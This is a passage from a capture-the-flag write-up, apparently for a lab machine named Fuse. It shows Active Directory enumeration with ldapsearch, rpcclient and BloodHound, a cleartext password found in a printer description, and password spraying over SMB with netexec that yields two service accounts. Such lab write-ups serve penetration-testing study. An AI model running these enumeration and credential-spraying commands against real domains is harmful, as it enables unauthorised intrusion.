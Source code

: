 -   **As we can access the host using credentials temporarily I try and dump all user information using ldap**:
    -   `ldapsearch -H ldap://fuse.$domain-x -b "DC=fuse,DC=fabricorp" -D "cn=$user,dc=fuse,dc=fabricorp" -w $newPass-s sub "(&(objectclass=user))" >> ldapUsersAll.txt`
    -   However it just errors out:
        -   {{< figure src="/ox-hugo/2024-10-17-131612_.png" >}}


### Enumerating using `rpcclient`: {#enumerating-using-rpcclient}

-   **I change the password again and manage to get an** `rpc` **session**:
    -   `rpcclient -U $user $box`
    -   {{< figure src="/ox-hugo/2024-10-17-132107_.png" >}}

-   **I dump all the users on the domain**:
    -   `enumdomusers`
    -   {{< figure src="/ox-hugo/2024-10-17-132233_.png" >}}
    -   This is good as it gives us more users now.

-   **I query each user individually to see if there is any important information in their descriptions, but find nothing**:
    -   `queryuser [RID]`


### Finding a hard-coded clear text credential a printer description: {#finding-a-hard-coded-clear-text-credential-a-printer-description}

-   **I enumerate the printers using** `rpclient` **and find a hardcoded password in the description field**:
    -   `enumprinters`
    -   {{< figure src="/ox-hugo/2024-10-17-134938_.png" >}}

-   **I cred stuff using newly found credentials &amp; users**:
    -   `netexec smb $box -u Users.txt -p $pass --continue-on-success | grep [+]`
    -   {{< figure src="/ox-hugo/2024-10-17-135256_.png" >}}
    -   **I get two hits**:
        -   svc-print
        -   svc-scan

-   **I have a deep dive on** `rpc` **available here**:
    -   <https://bloodstiller.com/cheatsheets/rpc-cheatsheet/>


## 2. Foothold: {#2-dot-foothold}


### Enumerating as `svc-print`: {#enumerating-as-svc-print}


#### Running a bloodhound collection: {#running-a-bloodhound-collection}

-   **Now that we have creds that arent' changing all the time we can to a full bloodhound collection**:
    -   `python3 bloodhound.py -dc fuse.$domain -c All -u $user -p $pass -d $domain -ns $box`
    -   {{< figure src="/ox-hugo/2024-10-17-144237_.png" >}}
